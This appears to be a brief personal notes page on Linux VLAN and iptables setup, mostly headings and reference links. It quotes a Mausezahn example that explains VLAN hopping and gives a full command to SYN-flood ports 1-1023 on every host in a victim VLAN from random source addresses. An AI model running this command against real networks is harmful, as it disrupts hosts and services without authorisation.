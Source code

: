 # VLAN


# MZ - Comprehensive examples
```
Send a SYN flood attack to another VLAN using VLAN hopping.
This only works if you are connected to the same VLAN which is configured as native VLAN on the trunk.
We assume that the victim VLAN is VLAN 100 and the native VLAN is VLAN 5.
Lets attack every host in VLAN 100 which use an IP prefix of 10.100.100.0/24,
also try out all ports between 1 and 1023 and use a random source IP address.
```
> mausezahn eth0 -c 0 -Q 5,100 -t tcp flags=syn,dp=1-1023 -p 20 -A rand -B 10.100.100.0/24


# IPTables


# refer
### mz
- http://git.bwit.cc

### ovs
- http://docs.openvswitch.org/en/latest/faq/vlan/

### vlan
- https://www.edureka.co/community/39047/how-do-i-set-up-a-minikube-cluster-on-ubuntu?show=39062#a39062
- https://www.cyberciti.biz/tips/howto-configure-linux-virtual-local-area-network-vlan.html
- https://askubuntu.com/questions/709817/ubuntu-15-network-with-bond-vlan-bridge


### iptables
- https://linux.die.net/man/8/iptables
